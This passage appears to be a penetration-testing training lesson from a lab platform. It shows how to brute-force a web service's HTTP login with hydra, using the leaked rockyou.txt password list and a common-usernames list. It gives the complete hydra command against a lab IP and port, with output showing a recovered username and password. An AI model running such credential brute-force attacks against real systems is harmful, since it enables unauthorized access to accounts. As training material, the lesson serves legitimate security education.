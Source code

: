 ***

### Wordlists

One of the most commonly used password wordlists is `rockyou.txt`, which has over 14 million unique passwords, sorted by how common they are, collected from online leaked databases of passwords and usernames. Basically, unless a password is truly unique, this wordlist will likely contain it. `Rockyou.txt` already exists in our Pwnbox. If we were using `hydra` on a local VM, we could download this wordlist from the [Hashcat GitHub Repository](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt). We can find it in the following directory:

Username Brute Force

```shell-session
root@htb[/htb]$ locate rockyou.txt

/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

As for our usernames wordlist, we will utilize the following wordlist from `SecLists`:

Username Brute Force

```shell-session
root@htb[/htb]$ locate names.txt

/opt/useful/SecLists/Usernames/Names/names.txt
```

This is a short list of common usernames that may be found on any server.

***

### Username/Password Attack

`Hydra` requires at least 3 specific flags if the credentials are in one single list to perform a brute force attack against a web service:

1. `Credentials`
2. `Target Host`
3. `Target Path`

Credentials can also be separated by `usernames` and `passwords`. We can use the `-L` flag for the usernames wordlist and the `-P` flag for the passwords wordlist. Since we don't want to brute force all the usernames in combination with the passwords in the lists, we can tell `hydra` to stop after the first successful login by specifying the flag `-f`.

Tip: We will add the "-u" flag, so that it tries all users on each password, instead of trying all 14 million passwords on one user, before moving on to the next.

```shell-session
root@htb[/htb]$ hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /

[DATA] max 16 tasks per 1 server, overall 16 tasks, 243854766 login tries (l:17/p:14344398), ~15240923 tries per task
[DATA] attacking http-get://178.35.49.134:32901/
[STATUS] 9105.00 tries/min, 9105 tries in 00:01h, 243845661 to do in 446:22h, 16 active

<...SNIP...>
[32901][http-get] host: 178.35.49.134   login: thomas   password: thomas1

[STATUS] attack finished for SERVER_IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```
